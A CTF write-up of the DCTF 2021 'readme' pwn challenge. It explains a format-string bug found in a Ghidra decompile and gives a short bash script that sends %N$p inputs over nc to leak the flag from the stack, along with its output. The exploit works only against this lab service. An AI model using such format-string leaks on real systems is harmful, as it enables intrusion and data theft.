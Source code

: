 # DCTF 2021

## Readme

> 150
> 
> Read me to get the flag. 
> 
> `nc dctf-chall-readme.westeurope.azurecontainer.io 7481`
>
> [readme](readme)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic leak the flag from the stack with `%p`.

## Analysis

### Decompile with Ghidra

```c
void vuln(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(local_38,0x1e,stdin);
  printf("hello ");
  printf(local_38);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}
```

The `vuln` function reads `flag.txt` into a local (`local_58`) stack array.

The vulnerability is the `printf(local_38)` statement that is missing a format string.  Exfiltrating the flag is as simple as passing `%nn$p` format strings where `nn` is the position in the stack; starting from `6` just increment until the output starts with `dctf` (`nn` = `8`), then continue until you have the flag.

If you're new to format-string exploits read this: [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).

## Exploit

```bash
#!/bin/bash

for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

This `bash` script will `echo %8$p`, then `echo %9$p`, etc... into the challenge service serially (one by one), capturing the output (`grep`, `awk`), converting to text (`xxd`), and then finally reversing the string (`rev`, since x86_64 is little endian).

Output:

```bash
# ./exploit.sh
dctf{n0w_g0_r3ad_s0me_b0
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```

Yeah, so the input string corrupting stack?  Didn't really look that hard into the problem, just guessed the `0k5` at the end. 
